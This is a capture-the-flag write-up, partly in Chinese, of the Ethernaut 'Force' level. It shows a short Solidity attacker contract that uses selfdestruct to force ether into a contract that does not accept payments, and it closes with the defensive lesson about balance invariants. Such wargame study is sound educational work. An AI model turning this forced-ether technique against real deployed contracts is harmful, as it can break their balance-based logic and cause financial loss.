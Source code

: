 ```
Some contracts will simply not take your money ¯\_(ツ)_/¯

The goal of this level is to make the balance of the contract greater than zero.

  Things that might help:

Fallback methods
Sometimes the best way to attack a contract is with another contract.
See the "?" page above, section "Beyond the console"
```





```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force { /*
                   MEOW ?
         /\_/\   /
    ____/ o o \
    /~____  =ø= /
    (______)__m_m)
                   */ }
```



我也只能缓缓打出一个问号❓





> 本關基本上不是很了解以太坊內部機制的很難一時之間想到答案，但要是知道答案了就很簡單，就是使用[selfdestruct](https://docs.soliditylang.org/en/v0.8.1/units-and-global-variables.html#contract-related)把以太幣強行送進合約。selfdestruct(address payable recipient)這個函數會在移除呼叫合約的同時強行把當前合約剩餘的以太幣傳送到指定地址，不論該地址有否定義payable或fallback。
>



```
selfdestruct(address payable recipient)
```

Destroy the current contract, sending its funds to the given [Address](https://docs.soliditylang.org/en/v0.8.1/types.html#address) and end execution. Note that `selfdestruct` has some peculiarities inherited from the EVM:

- the receiving contract’s receive function is not executed.
- the contract is only really destroyed at the end of the transaction and `revert` s might “undo” the destruction.





所以：注意levelInstance要用 payable修饰

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Force{
    address payable levelInstance;
    constructor(address payable _levelInstance) public {
        levelInstance = _levelInstance;
    }
    function claim() public payable 
        {
            selfdestruct(levelInstance);
        }
}
```



deploy的时候不用传value，claim的时候传1 wei的value。

![image-20250301225340501](./Force/images/image-20250301225340501.png)



In solidity, for a contract to be able to receive ether, the fallback function must be marked `payable`.

However, there is no way to stop an attacker from sending ether to a contract by self destroying. Hence, it is important not to count on the invariant `address(this).balance == 0` for any contract logic.





确实，硬要给还真防不住。。。